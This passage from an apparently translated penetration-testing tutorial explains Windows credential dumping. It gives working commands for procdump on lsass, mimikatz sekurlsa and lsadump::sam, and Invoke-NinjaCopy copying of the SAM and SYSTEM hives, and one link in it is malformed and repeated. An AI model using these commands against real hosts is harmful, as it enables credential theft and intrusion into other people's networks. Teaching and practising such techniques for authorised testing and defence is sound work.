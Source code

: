 Upload `procdump.exe` to the target host and execute the following command:

```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

Then use `mimikatz.exe` to obtain the dumped process memory information and execute the following command:

```powershell
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords full" exit
# sekurlsa::minidump lsass.dmp is used to load memory files
# sekurlsa::logonpasswords export user credentials
```

![Untitled](%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e8733b02d1614977972a074a690afd8e/Untitled%207.png)

### Read local SAM files online

Read the user login credentials saved in the `SAM` file and export the hash values ​​of all local users in the current system.

Upload `mimikatz.exe` to the target host and execute the following command:

```powershell
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit
# privilege::debug upgrade to DebugPrivilege permission
# token::elevate to SYSTEM permissions
# lsadump::sam is used to read local SAM files
```

![Untitled](%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e8733b02d1614977972a074a690afd8e/Untitled%208.png)

### Read local SAM files offline

Offline reading means exporting the `SAM` file, using `mimikatz` to load and read the user login credentials and other information. It should be noted that in order to improve the security of the `SAM` file to prevent offline cracking, Windows will encrypt the `SAM` file using a secret key, which is stored in the `SYSTEM` file and is located in the same directory as `SAM`.

First, export the `SAM` and `SYSTEM` files on the target host. Since these two files are locked when the system is running, it needs to be implemented with some tools, and there are several implementation methods:

- Use the Invoke-NinjaCopy.ps1 script provided in the PowerSploit project, download address: [https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1).

```powershell
Import-Module ./Invoke-NinjaCopy.ps1
Invoke-NinjaCopy -Path 'C:\Windows\System32\config\SAM' -LocalDestination 'C:\Users\Administrator\Desktop\SAM'
Invoke-NinjaCopy -Path 'C:\Windows\System32\config\SYSTEM' -LocalDestination 'C:\Users\Administrator\Desktop\SYSTEM'
```
